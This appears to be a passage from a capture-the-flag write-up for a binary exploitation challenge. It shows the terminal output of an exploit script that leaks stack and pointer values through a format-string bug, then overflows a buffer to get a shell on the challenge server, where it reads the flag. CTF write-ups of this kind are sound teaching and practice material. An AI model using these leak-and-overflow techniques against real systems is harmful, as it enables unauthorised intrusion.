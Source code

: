 Executing the script towards the server renders the flag:
```
$ python3 xpl.py a
[+] Opening connection to chall.polygl0ts.ch on port 9001: Done
b'Scream into the abyss and see how long it takes for you to get a response ;)Current iteration: 0\nEnter input: '
b'Saved score of 0 for /bin/sh. Date and Time: Sun Nov  5 09:15:44 UTC 2023\nNow please add a message: '
b'Your message:\n'
[b'1', b'1', b'3a6567617373656d', b'7fe9b429ca70', b'0', b'3e8', b'0', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'2e786c252e786c25', b'786c252e786c25', b'55a03d50531e', b'55a03d507d90', b'7fe9b42e7040', b'7fe9b429aaa0', b'7fe9b4297600', b'7ffca40d70c8', b'55a03d50531e', b'55a03d507d90', b'7fe9b42e7040', b'7fe9b410ed96', b'0', b'55a03e2f12c0', b'7ffca40d6fb0', b'55a03d50539e', b'1000\n']
b'Current iteration: 0\nEnter input: '
b"You can now scream a longer message but before you do so, we'll take your name: "
b'Saved score of 0 for /bin/sh. Date and Time: Sun Nov  5 09:15:44 UTC 2023\nNow please add a message: '
[*] Switching to interactive mode
Your message:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf3QP=\xa0U
$ id
uid=1000(jail) gid=1000(jail) groups=1000(jail)
$ ls
flag.txt
run
$ cat flag.txt
EPFL{H3Y_C4LM_D0WN_N0_N33D_T0_SCR34M_S0_L0UD_1_C4N_H34R_Y0U!!!!!!}[*] Got EOF while reading in interactive
```
